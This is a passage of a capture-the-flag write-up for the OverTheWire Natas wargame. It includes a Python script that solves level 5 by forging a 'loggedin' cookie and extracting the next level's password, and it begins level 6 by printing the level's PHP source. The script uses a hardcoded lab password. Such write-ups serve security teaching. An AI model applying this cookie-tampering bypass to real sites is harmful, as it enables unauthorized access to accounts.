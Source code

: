 Default Get request has cookies which have 'loggedin' parameter = '0' so manipulate in cookies parameter

```py
import requests
import re

username = 'natas5'
password = 'Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD'
url = 'http://%s.natas.labs.overthewire.org'%username
cookies = { 'loggedin' : '1'}
response = requests.get(url,auth=(username,password) , cookies=cookies)
content = response.text

flag = re.findall("The password for natas6 is (.*)</div>",content)[0]

print(flag)
```

---

### Natas 6

<img src="img/Pasted image 20240424120501.png" alt="Example Image" width="1080"/>

view the source of site [http://natas6.natas.labs.overthewire.org](http://natas6.natas.labs.overthewire.org) , there will be a `index-source.html` [http://natas6.natas.labs.overthewire.org/index-source.html](http://natas6.natas.labs.overthewire.org/index-source.html)

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```
